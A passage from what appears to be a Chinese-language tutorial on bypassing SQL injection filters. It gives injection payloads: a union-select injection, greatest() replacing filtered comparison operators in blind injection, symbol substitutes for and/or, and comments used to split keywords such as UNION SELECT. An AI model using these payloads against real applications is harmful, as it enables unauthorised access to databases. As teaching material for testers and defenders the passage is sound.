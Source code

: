 或者：

```sql
id=1' union select 1,2,'3
```

## 过滤比较符号 （ `<` 和 `>` ）

### 使用**`greatest()`、`least（）`函数**绕过

greatest()、least（）：（前者返回最大值，后者返回最小值）

同样是在使用盲注的时候，在使用二分查找的时候需要使用到比较操作符来进行查找。如果无法使用比较操作符，那么就需要使用到greatest来进行绕过了

最常见的一个盲注的SQL语句：

```sql
select * from users where id=1 and ascii(substr(database(),0,1))>64
```

此时如果比较操作符被过滤，上面的盲注语句则无法使用,那么就可以使用greatest来代替比较操作符了。greatest(n1,n2,n3,...)函数返回输入参数(n1,n2,n3,...)的最大值

那么上面的这条SQL语句可以使用greatest变为如下的子句:

```sql
select * from users where id=1 and greatest(ascii(substr(database(),0,1)),64)=64
```

### 使用**`between` `and`**绕过

between a and b：返回a，b之间的数据，不包含b。

## 过滤等号（ `=` ）

### 使用like 、rlike 、regexp 或者 使用< 或者 >

## 过滤`or` `and` `xor` `not`

### 使用符号代替

```sql
and=`&&`  or=`||`   xor=`|`   not=`!`
```

## 过滤`union`，`select`，`where`等

### 使用**注释符**绕过

常用注释符：

`//`、`--`、`/**/`、`#`、`--+`、`---`、`;`、`%00`、`--a`

用法：

```sql
U/**/ NION /**/ SE/**/ LECT /**/user，pwd from user
```
